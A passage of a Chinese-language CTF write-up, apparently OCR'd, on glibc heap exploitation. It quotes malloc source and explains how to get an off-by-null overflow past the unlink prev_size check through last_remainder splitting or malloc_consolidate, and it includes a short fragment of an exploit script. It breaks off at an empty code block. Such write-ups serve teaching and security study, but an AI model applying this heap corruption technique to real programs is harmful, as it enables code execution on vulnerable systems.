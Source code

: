 ```
                  if (av != &main_arena)
                    victim->size |= NON_MAIN_ARENA;
                }
              /* Split */
              else
                {
                  remainder = chunk_at_offset (victim, nb);
           ......
```

unlink:
```
if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size"); 
```

----------

原wp的解决办法是从small chunk中申请一个chunk，申请完该chunk后，剩下的chunk就变成了last_remainder，放入了unsored bin中.
再利用这个新申请的chunk来溢出剩下的chunk。从last_remainder中分割chunk的时候不会unlink，就没有nextchunk的prev_size的检查了：
```
if (in_smallbin_range (nb) &&                  // 申请的chunk属于small chunk    
              bck == unsorted_chunks (av) &&   //unsorted bin中只有last_remainder，              
              victim == av->last_remainder &&  //且其size满足要求，就会进入以下分支 
              (unsigned long) (size) > (unsigned long) (nb + MINSIZE))
            {
              /* split and reattach remainder */
              remainder_size = size - nb;
              remainder = chunk_at_offset (victim, nb);
              unsorted_chunks (av)->bk = unsorted_chunks (av)->fd = remainder;
              av->last_remainder = remainder;
              remainder->bk = remainder->fd = unsorted_chunks (av);
              if (!in_smallbin_range (remainder_size))
                {
                  remainder->fd_nextsize = NULL;
                  remainder->bk_nextsize = NULL;
                }
              set_head (victim, nb | PREV_INUSE |
                        (av != &main_arena ? NON_MAIN_ARENA : 0));
              set_head (remainder, remainder_size | PREV_INUSE);
              set_foot (remainder, remainder_size);
              check_malloced_chunk (av, victim, nb);
              void *p = chunk2mem (victim);
              alloc_perturb (p, bytes);
              return p;
            }

```

##### 利用malloc_consolidate设置prev_size绕过unlink检查.

由于属于fastbin的chunk在free的时候不会进行前后的合并操作，所以要构成NULL_byte_poison的效果就需要借助malloc_consolidate.利用他的前向合并操作.
但是合并的时候会进行unlink，需要一个小trick:
```
add(0x28,'\x00'*0x28)#1, 0x40, offbyNULL, unsorted chunksize 0x140 ==> 0x100 
add(0x38,'\n')#2 0x70
add(0x38,'\n')#3 0xb0
add(0x38,'\n')#4 0xf0
add(0x18,'\n')#5 0x130
add(0x18,'\n')#11
delete(6)
delete(2)
malloc_consolidate()
```
注意delete的顺序:
```
```